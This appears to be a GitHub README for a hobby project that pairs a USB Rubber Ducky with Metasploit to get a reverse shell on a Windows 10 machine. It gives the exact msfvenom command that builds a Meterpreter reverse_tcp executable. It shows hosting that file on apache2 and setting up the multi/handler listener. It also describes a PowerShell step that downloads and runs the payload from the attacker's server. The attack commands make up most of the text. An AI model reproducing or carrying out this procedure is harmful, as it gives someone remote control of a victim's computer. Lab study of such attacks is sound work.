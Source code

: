 # Ducky_reverse_tcp_shell
Uses the metasploit framework and the USB-RubberDucky to create a reverse- shell (without bypassing any AntiMalwareScanner -> not effective)

AttackerMachine: Kali Linux (2022.1)connected to the targets Network

TargetMachine: Windows 10 Home, Windows Defender: realtime monitoring off, admin privileges 


1. Create a payload to be executes on the target machine.

msfvenom: payload gnerator of the Metasploit framework

payload: windows/meterpreter/reverse_tcp

filetype: .exe (for windows)

Directory: /var/www/html/yourfile.exe 

--> sets the directory of the malicious file to the html directory of my machine. To Host this small server ill use apache2. 

Command: sudo service apache2 start

Command2: msfvenom -p windows/meterpreter/reverse_tcp LHOST your.ip.addr.ess LPORT 4444 -f exe -o /var/www/html/Yourfile.exe

2. Setup the listening Machine(Attacker)

msfconsole

msf6: use exploit/multi/handler

msf6: set payload windows/meterpreter/reverse_tcp

msf6: set LHOST and LPORT

msf6: exploit

3. Ducky Setup:

Encode and flash the DuckyCode file on the Ducky

insert the USB-RubberDucky

--> This payload downloads and executes the hosted .exe file via Powershell. With low security settings the malicious payload should be executed by now -> Meterpreter Session should open in the msfconsole 

Mission complete
